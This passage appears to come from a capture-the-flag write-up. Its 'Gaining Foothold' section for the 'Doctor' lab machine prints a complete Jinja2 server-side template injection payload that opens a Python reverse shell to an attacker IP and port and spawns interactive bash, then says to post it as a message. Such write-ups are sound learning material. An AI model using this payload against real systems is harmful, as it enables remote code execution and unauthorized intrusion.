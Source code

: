 ## Gaining Foothold

Let's use the following payload found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

![doctor](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/doctor/17.png)

Let's modify the payload with our IP and PORT to gain reverse shell.

`{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.242\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}`

Let's post it as a message

![doctor](https://raw.githubusercontent.com/vincidadesigns/vincidadesigns.github.io/main/assets/img/posts/doctor/18.png)

Check whether the post has been posted.
